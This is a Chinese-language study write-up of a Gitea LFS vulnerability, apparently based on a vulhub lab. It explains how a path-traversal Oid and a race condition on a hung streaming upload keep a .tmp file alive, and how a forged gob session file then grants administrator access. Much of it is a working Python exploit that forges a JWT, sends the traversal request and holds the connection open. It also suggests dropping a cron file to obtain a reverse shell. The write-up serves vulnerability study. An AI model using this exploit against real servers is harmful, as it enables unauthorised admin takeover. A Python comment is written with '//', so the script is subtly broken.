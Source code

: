 ### 学习checklist：

- go 使用`defer os.Remove(tmpPath)`删除文件时，文件可能被（条件竞争）阻塞。导致文件短时间内无法删除。存在风险。

- go 的文件写入不能像php,java一样直接写入一个shell。一般可以向/etc/cron.d/中写入一个crontab配置文件，来构造一个执行命令的定时任务。但是这个方式限制比较大，需要有反弹shell的权限，且文件写入的路径也要可控。

- 在使用文件管理session，可以通过写入一个session来获取管理员权限，也是一个好办法。



gitea PUT操作存在进行文件写入存在缺陷。

```go
// Put takes a Meta object and an io.Reader and writes the content to the store.
func (s *ContentStore) Put(meta *models.LFSMetaObject, r io.Reader) error {
	path := filepath.Join(s.BasePath, transformKey(meta.Oid))
	tmpPath := path + ".tmp"

	dir := filepath.Dir(path)
	// 创建路径
	if err := os.MkdirAll(dir, 0750); err != nil {
		return err
	}

	// 如果文件不存在 则创建
	file, err := os.OpenFile(tmpPath, os.O_CREATE|os.O_WRONLY|os.O_EXCL, 0640)
	if err != nil {
		return err
	}
	// 最后删除文件
	defer os.Remove(tmpPath)

	hash := sha256.New()
	// 创建一个写入器
	hw := io.MultiWriter(hash, file)

	// 将r写入file
	written, err := io.Copy(hw, r)
	if err != nil {
		file.Close()
		return err
	}
	file.Close()

	if written != meta.Size {
		return errSizeMismatch
	}
	shaStr := hex.EncodeToString(hash.Sum(nil))
	if shaStr != meta.Oid {
		return errHashMismatch
	}
	// 将tmpPath 重命名为 path
	return os.Rename(tmpPath, path)
}
```

### 流程梳理

1. transformKey(meta.Oid) + .tmp后缀作为临时文件
2. 如果目录不存在，则创建目录
3. 将用户传入的内容写入临时文件
4. 如果文件大小和meta.Size不一致，则返回错误（meta.Size）是第一步中创建LFS时传入的Size参数
5. 如果文件哈希和meta.Oid不一致，则返回错误
6. 将临时文件重命名为真正的文件名

我们想要写入任意文件，Oid要定义为一个能够穿越到其他目录的恶意字符串，而一个文件的的哈希(sha256)是一个hex字符串。所以到第五步时，会失败导致退出，不可能到第六步，也就是说我们只能写入一个后缀是".tmp"的临时文件。

`defer os.Remove(tmpPath)`这条语句，最后会删除创建的临时文件。

所以需要解决两个问题：

1. 能够写入一个.tmp为后缀的文件，如何利用
2. 如何让这个文件在利用成功前不被删除

第二个问题，作者发现的方法是，条件竞争。

因为gitea是用流式方法来读取数据包，并将读取到的内容写入临时文件，那么我们可以用流式HTTP方法，传入我们需要写入的文件内容，然后挂起HTTP连接。这时候，后端会一直等待我传剩下的字符，在这个时间差内，Put函数是等待在`io.Copy`那个步骤的，当然也就不会删除临时文件了。

### session伪造

gitea使用第三方库 [go-macaron/session](https://github.com/go-macaron/session/blob/master/file.go)来管理session，默认使用文件作为session存储容器。

Go-macaron/session session文件实现代码如下：

```go
// 文件路径
func (p *FileProvider) filepath(sid string) string {
	return path.Join(p.rootPath, string(sid[0]), string(sid[1]), sid)
}

// 将session保存到文件
// Release releases resource and save data to provider.
func (s *FileStore) Release() error {
	s.p.lock.Lock()
	defer s.p.lock.Unlock()

	data, err := EncodeGob(s.data)
	if err != nil {
		return err
	}

	return ioutil.WriteFile(s.p.filepath(s.sid), data, os.ModePerm)
}

//github.com/go-macaron/session/utils.go
// Gob序列化
func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
	for _, v := range obj {
		gob.Register(v)
	}
	buf := bytes.NewBuffer(nil)
	err := gob.NewEncoder(buf).Encode(obj)
	return buf.Bytes(), err
}
```

通过查看源码可以发现：

1. session文件名格式为：rootPath/sid[0]/sid[1]/sid
2. session对象用Gob序列化后存入文件

使用p牛的脚本来生成session：

```python
import requests
import jwt
import time
import base64
import logging
import sys
import json
from urllib.parse import quote


logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)

BASE_URL = 'http://your-ip:3000/vulhub/repo'
JWT_SECRET = 'AzDE6jvaOhh_u30cmkbEqmOdl8h34zOyxfqcieuAu9Y'
USER_ID = 1
REPO_ID = 1
SESSION_ID = '11vulhub'
SESSION_DATA = bytes.fromhex('0eff81040102ff82000110011000005cff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c08000676756c687562')


def generate_token():
    def decode_base64(data):
        missing_padding = len(data) % 4
        if missing_padding != 0:
            data += '='* (4 - missing_padding)
        return base64.urlsafe_b64decode(data)

    nbf = int(time.time())-(60*60*24*1000)
    exp = int(time.time())+(60*60*24*1000)

    token = jwt.encode({'user': USER_ID, 'repo': REPO_ID, 'op': 'upload', 'exp': exp, 'nbf': nbf}, decode_base64(JWT_SECRET), algorithm='HS256')
    return token.decode()

def gen_data():
    yield SESSION_DATA
    // sleep 300秒
    time.sleep(300)
    yield b''


OID = f'....gitea/sessions/{SESSION_ID[0]}/{SESSION_ID[1]}/{SESSION_ID}'
response = requests.post(f'{BASE_URL}.git/info/lfs/objects', headers={
    'Accept': 'application/vnd.git-lfs+json'
}, json={
    "Oid": OID,
    "Size": 100000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
})
logging.info(response.text)

response = requests.put(f"{BASE_URL}.git/info/lfs/objects/{quote(OID, safe='')}", data=gen_data(), headers={
    'Accept': 'application/vnd.git-lfs',
    'Content-Type': 'application/vnd.git-lfs',
    'Authorization': f'Bearer {generate_token()}'
 })
```

该脚本会在目标服务器上生存一个session文件:`11vulhub.tmp`

在300秒内携带这个session访问，即可获得管理员权限。



### 参考链接：

https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html